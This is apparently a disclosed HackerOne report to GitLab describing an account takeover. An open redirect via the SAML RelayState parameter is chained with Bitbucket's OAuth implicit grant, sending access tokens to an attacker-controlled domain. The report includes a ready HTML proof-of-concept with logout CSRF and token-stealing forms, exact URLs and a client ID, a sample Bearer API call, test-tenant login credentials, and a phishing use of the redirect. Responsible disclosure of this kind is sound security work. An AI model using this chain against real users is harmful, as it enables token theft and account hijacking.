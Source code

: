# Account takeover due to insufficient URL validation on RelayState parameter

## Report Details
- **Report ID**: 1923672
- **URL**: https://hackerone.com/reports/1923672
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-03-29T13:01:19.598Z
- **Disclosed**: 2023-05-30T08:46:24.008Z

## Reporter
- **Username**: bull
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hi,


I have found an issue which can be used by an attacker to steal Bitbucket access token along with Other third party access tokens(google, salesforce etc). But the most important one is bitbucket. 


Issue:
=====


* there is open redirect while loggin to gitlab Via SAML, while the Open redirect is not much impactful since it is a post based request coming from third party domain, but the redirect happens and is also saved along in the gitlab cookies while being redirect and next time user visits `gitlab.com/user/sign_in`, he is automatically sent to the redirect


### open redirect:
{F2260468}


This chain can be used to steal third party access token `login with google, github, bitbucket, twitter, salesforce ....... etc` but we will focus on bitbucket for the following reason:

It has the presaved oauth scopes which is wide and also the client id is same as that of when you use the import project from bitbucket feature:

{F2260558}


Scope : (Read acccess to all data in account and some write access, projects's wikis):

{F2260561}


similar is the case for Github, but Github doesn't allow implicit grant. 

### implicit grant for bitbucket:

this simply returns access token as bearer to attacker's domain , which can be used to access full bitbucket api.

This makes both users vulnerable,:
`people who chose to log in with bitbucket`
`people who chose other means of login, but have previously imported project from bitbucket into gitlab`

POC:
=====

 ### As victim:

 make sure you have previously used bitbucket with gitlab, weather for login with bitbucket or for importing project.


### As attacker:

* setup a group with SAML Login and setup a user to log into gitlab with SAML

Here are my credentials for triage purposes: (Please note i will revoke these credentials upon triage, let me know if you need them longer or dont need them at all)

https://bugcrowd-iambull-2.oktapreview.com/

username: `gitlab@gitlab.com`
password : `Gliatb4passtbx!`

security answer: `Gliatb`




POC:
=====


* log victim out with Logout CSRF

* use SAML creds to save open redirect for victim:

https://bugcrowd-iambull-2.oktapreview.com/app/bugcrowd-iambull-2_gitlabcom_1/exk1lit3jovMjvewh0h8/sso/saml?RelayState=.witcoat.com

* initiate bitbucket oauth by changing response_type to `token`

https://bitbucket.org/site/oauth2/authorize?client_id=b9jLmh8WCLZPBAwWba&redirect_uri=https%3A%2F%2Fgitlab.com%2Fusers%2Fauth%2Fbitbucket%2Fcallback&response_type=token&state=DoesNotMatter

* try using stolen bitbucket api:

```
GET /2.0/repositories/%7B766210f9-9bec-4010-9f4d-917b06661c0c%7D HTTP/2
Host: api.bitbucket.org
User-Agent: curl/7.79.1
Accept: */*
Authorization: Bearer Txpo3AXXQZHlp....

```




here is the poc for doing everything step by step, **please note all this can be automated with window.open for 1 click exploit**


```
<html>
<title>GitLab</title>


<body>
	
<span>Logout of gitlab if logged in:</span>

<form action="https://gitlab.com/users/sign_out" target="_blank" method="post"><button>Logout Gitlab Account</button></form>

<br>
<br>
<br>
<br>

<span>Open redirect via SAML:</span>

<form action="https://bugcrowd-iambull-2.oktapreview.com/app/bugcrowd-iambull-2_gitlabcom_1/exk1lit3jovMjvewh0h8/sso/saml" target="_blank" method="get">
	<input type="hidden" name="RelayState" value=".witcoat.com" /> 
	<button>Save Open Redirect</button></form>
<br>


<span>steal oauth access Token For Bitbucket:</span>

<form action="https://bitbucket.org/site/oauth2/authorize" target="_blank" method="get">
	<input type="hidden" name="client_id" value="b9jLmh8WCLZPBAwWba" /> 
  <input type="hidden" name="redirect_uri" value="https://gitlab.com/users/auth/bitbucket/callback" /> 
  <input type="hidden" name="response_type" value="token" /> 
    <input type="hidden" name="state" value="Doesnotmatter" /> 


	<button>Steal Bitbucket Code</button>
</form>


</body>



</html>
```



here is the video of going through steps:

{F2260621}

## Phishing Vector:

Upon saving open redirect into the cookies, when the user clicks signin on `about.gitlab.com` he will be redirected to external domain to steal credentials:

{F2260648}



Please let me know if you need any more information or if i missed something
thanks
Bull

## Impact

Steal bitbucket access token, which can be used to import victim's any repository, and also write access to victim's any wiki in bitbucket, 
also this can be used to steal access tokens for other providers such as google, salesforce twitter etc.....

Also this can be used to phish users

## Attachments
- Screenshot_2023-03-29_at_4.14.02_PM.png
- Screenshot_2023-03-29_at_4.43.25_PM.png
- Screenshot_2023-03-29_at_1.46.27_PM.png
- f_gitlab.mov
- phish_g.mov
